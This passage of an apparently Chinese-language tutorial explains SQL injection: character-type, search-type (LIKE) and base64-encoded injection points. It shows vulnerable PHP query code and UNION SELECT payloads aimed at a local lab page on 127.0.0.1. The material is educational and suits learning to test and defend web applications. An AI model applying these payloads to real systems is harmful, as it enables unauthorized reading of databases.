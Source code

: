 ![1645148889207-adc5648b-52bf-4d47-aba8-b2bbc2759144.png](.\SQL注入原理.assets\2504969-20230912132659317-1902351315.png)

值得注意的是这里相比于数字型注入类型的sql语句原型多了引号，可以是单引号或者是双引号。若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：

~~~sql
select * from 表名 where name='admin' and 1=1 ''
# 字符型常见的注入语句(Payload)
# 后台语句 - SELECT * FROM users WHERE id=('$id') LIMIT 0,1
id=-1') union select 1,database(),version() --+
id=-2") union select 1,2,3--+
~~~

#### 搜索

~~~bash
搜索型
SQL语句：$sql="select * from sy_guestbook where gName like '%$s%'";
http://127.0.0.1:8081/web/news.php?search=演示
有百分号%通配符和单引号，需要进行闭合
本身SQL语句：select * from sy_guestbook where gName like '%$s%'
写入语句：http://127.0.0.1:8081/web/news.php?search=演示%' +UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17--+
代入执行：select * from sy_guestbook where gName like '%演示%' +UNION+ALL+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17--+%'
但是这种在后面闭合不了。
~~~

这是一类特殊的注入类型。这类注入主要是指在进行数据搜索时没过滤搜索参数，一般在链接地址中有 keyword=关键字 ，有的不显示在的链接地址里面，而是直接通过搜索框表单提交。此类注入点提交的 SQL 语句，其原形大致为：select * from 表名 where 字段 like '%关键字%' 若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：
~~~sql
select * from 表名 where 字段 like '%测试%' and '%1%'='%1%'
~~~

#### 编码

~~~bash
编码型&加密型
SQL语句：
数据接受：$b=base64_decode($_GET['base']);     
		$sql="select * from sy_guestbook where id=$b";
http://127.0.0.1:8081/web/news.php?base=MQ==
数据进行编码（加密）后接收处理：
数据以编码（加密）值传递，发送编码值，对方常会进行解码后带入数据在进行SQL执行。在注入的时候，我们也要尝试对注入的payload进行编码后提交。
在注入的时候，需要进行编码后在进行注入：
正常语句：http://127.0.0.1:8081/web/news.php?base=1 UNION SELECT 1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
经过编码后：http://127.0.0.1:8081/web/news.php?base=MSBVTklPTiBTRUxFQ1QgMSxkYXRhYmFzZSgpLDMsNCw1LDYsNyw4LDksMTAsMTEsMTIsMTMsMTQsMTUsMTYsMTc=
~~~
